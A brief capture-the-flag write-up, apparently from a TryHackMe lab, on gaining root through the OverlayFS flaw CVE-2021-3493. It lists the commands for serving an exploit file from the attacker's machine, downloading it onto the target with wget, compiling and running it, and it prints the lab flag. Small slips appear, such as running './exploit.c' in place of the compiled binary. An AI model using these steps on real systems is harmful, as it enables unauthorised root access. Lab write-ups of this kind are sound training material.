

* SSHing to the machine 
````
ssh overlay@10.10.26.144 
````

* The exploit of the CVE-2021-3493 is available on this [website](https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/)
*  on our host machine from the directory where exploit.c is contained 

````
python3 -m http.server
````

* on the SSHed machine CDing to the /tmp which is writable

````
 wget http://ip:8000/exploit.c
````


````
chmod +rwx exploit.c
````

````
gcc -o exploit exploit.c
````

* ./exploit.c gives the rootshell 
* cat /root/flag.txt ---> thm{27aaa5865a52dcd4cb04c0e0a2d39404}